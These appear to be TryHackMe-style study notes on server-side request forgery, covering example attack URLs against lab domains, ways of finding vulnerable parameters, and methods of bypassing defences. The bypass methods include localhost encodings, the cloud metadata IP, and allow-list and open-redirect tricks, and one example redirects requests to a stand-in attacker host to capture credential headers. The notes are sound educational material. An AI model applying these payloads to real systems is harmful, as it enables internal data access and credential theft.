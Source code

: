 # Server Side Request Forgery (SSRF)

* Vulnerability that allows a malicious user to cause a web server to make an additional or edited HTTP request to the resource of the attacker's choosing.

### **Types of SSRF** <a href="#uh2la0sscau" id="uh2la0sscau"></a>

* There are two types of SSRF vulnerability:
  * Regular SSRF where data is returned to the attacker's screen.
  * Blind SSRF is where an SSRF occurs but no information is returned to the attacker's screen.

### **What's the impact?** <a href="#gszkoqo6sv8f" id="gszkoqo6sv8f"></a>

* A successful SSRF attack can result in:
  * Access to unauthorised areas.
  * Access to customer/organisational data.
  * Ability to Scale to internal networks.
  * Reveal authentication tokens/credentials.

### **SSRF Examples** <a href="#so30n9j1p4i5" id="so30n9j1p4i5"></a>

#### **Example 1 - Complete Control of Request** <a href="#whck8t90lbwb" id="whck8t90lbwb"></a>

1. Expected request http://website.thm/stock?url=http://api/stock/item?id=123.
2. Attacker requests http://website.thm/stock?url=http://api.website.thm/api/user.
3. Website requests http://api.website.thm/api/user.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.

#### **Example 2 - Directory Traversal** <a href="#id-3xk26kzhi03m" id="id-3xk26kzhi03m"></a>

* The attacker can still reach the /api/user page with only having control over the path by utilising directory traversal.

1. Expected request http://website.thm/stock?url=/item?id=123.
2. Attacker requests http://website.thm/stock?url=/../user.
   * When website.thm receives ../ this is a message to move up a directory.
   * This removes the /stock portion of the request.
   * Turns the final request into /api/user.
3. Website requests http://api.website.thm/api/stock/../user.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.

#### **Example 3 - Subdomain Control** <a href="#o0fgrix1cdh4" id="o0fgrix1cdh4"></a>

* When the attacker can control the server's subdomain to which the request is made.

1. Expected request http://website.thm/stock?server=api\&id=123.
2. Attacker requests http://website.thm/stock?server=api.website.thm/api/user\&x=\&id=123.
   * Take note of the payload ending in \&x= being used to stop the remaining path from being appended to the end of the attacker's URL.
   * This instead turns it into a parameter on the query string.
3. Website requests http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.

#### **Example 4 - Request a Server of the Attacker's Choice** <a href="#eg14hn810tzg" id="eg14hn810tzg"></a>

1. Expected request http://website.thm/stock?url=http://api/stock/item?id=123.
2. Attacker requests http://website.thm/stock?url=\[http://api.website.thm/api/use]\(http://hacker-domain.thm/)r.
3. Website requests data from hacker-domain.thm instead of api.website.thm.
   * Can capture request headers that are sent to the attacker's specified domain.
   * These headers could contain authentication credentials or API keys sent by website.thm that would normally authenticate to api.website.thm.

#### **Example 5 - Challenge** <a href="#id-6n92btjgyasd" id="id-6n92btjgyasd"></a>

1. Expected request https://website.thm/item/2?server=api
   * URL that website.thm is requesting: https://api.website.thm/api/item?id=2
2. Change the address to force the web server to return data from https://server.website.thm/flag?id=9.
3. Attacker requests https://website.thm/item/2?server=server.website.thm/flag?id=9\&x=
   * URL that website.thm is requesting: https://server.website.thm/flag?id=9\&x=.website.thm/api/item?id=2.

### **Finding an SSRF** <a href="#s9lecxj5yxkf" id="s9lecxj5yxkf"></a>

* Potential SSRF vulnerabilities can be spotted in web applications in many different ways:
  * When a full URL is used in a parameter in the address bar:
    * https://website.thm/form?server=http://server.website.thm/store
  * A hidden field in a form:
    * \<input type="hidden" name="server" value="http://server.website.thm/store"?
  * A partial URL such as just the hostname (api):
    * https://website.thm/form?server=api
  * Only the path of the URL (forms/contact):
    * https://website.thm/form?dst=/forms/contact
* Some of the examples are easier to exploit than others.
  * A lot of trial and error will be required to find a working payload.
* An external HTTP logging tool will need to be used to monitor requests if working with a blind SSRF where no output is reflected back:
  * requestbin.com.
  * Own HTTP server.
  * Burp Suite's Collaborator client.

### **Defeating Common SSRF Defences** <a href="#xaa769jrm4d3" id="xaa769jrm4d3"></a>

* More security savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules.

#### **Deny List** <a href="#lfhe9pgyjxh0" id="lfhe9pgyjxh0"></a>

* All requests are accepted apart from resources specified in a list or matching a particular pattern.
* A Web Application may employ a deny list to protect assets from being accessed by the public while still allowing access to other location:
  * Sensitive endpoints.
  * IP addresses.
  * Domains s.
* A specific endpoint to restrict access is the localhost.
  * This may contain server performance data or further sensitive information.
  * localhost and 127.0.0.1 should appear on a deny list.
* Attackers can bypass a Deny List by using alternative localhost references such as:
  * 0
  * 0.0.0.0
  * 0000
  * 127.1
  * 127.\*.\*.\*
  * 2130706433
  * 017700000001
* A deny list can also be bypassed using subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
* In a cloud environment, it is beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information.
  * An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

#### **Allow List** <a href="#gm0lwvur5i0x" id="gm0lwvur5i0x"></a>

* Where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.thm.
  * An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm.
  * The application logic would now allow this input and let an attacker control the internal HTTP request.

#### **Open Redirect** <a href="#mu8wr7wghubw" id="mu8wr7wghubw"></a>

* If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect.
* An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.
  * E.g. the link https://website.thm/link?url=https://tryhackme.com.
  * This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes.
  * Imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/.
    * An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
